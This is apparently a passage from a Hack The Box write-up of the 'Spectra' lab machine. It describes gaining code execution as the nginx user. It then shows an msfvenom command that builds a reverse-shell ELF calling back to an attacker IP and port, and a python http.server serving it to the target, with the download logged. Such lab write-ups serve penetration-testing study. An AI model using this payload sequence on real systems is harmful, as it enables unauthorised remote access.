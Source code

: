 Code execution obtained in the context of the `nginx` user:

![Pasted image 20210509001300.png](../../zzz_res/attachments/Pasted_image_20210509001300.png)

![Pasted image 20210509001940.png](../../zzz_res/attachments/Pasted_image_20210509001940.png)

From there, a reverse shell was generated and hosted using msfvenom and http.server python module :

```bash
┌──(kali㉿kali)-[~/…/HTB/box/Spectra/exploit]
└─$ msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.10.14.24 LPORT=10099 -f elf -o rs.elf
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 68 bytes
Final size of elf file: 152 bytes
Saved as: rs.elf

┌──(kali㉿kali)-[~/…/HTB/box/Spectra/exploit]
└─$ sudo python3 -m http.server 80
[sudo] password for kali:
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.229 - - [08/May/2021 18:16:41] "GET /rs.elf HTTP/1.1" 200 -
```

Then the reverse shell was downloaded and executed in order to get an interactive persistent shell:

![Pasted image 20210509001927.png](../../zzz_res/attachments/Pasted_image_20210509001927.png)
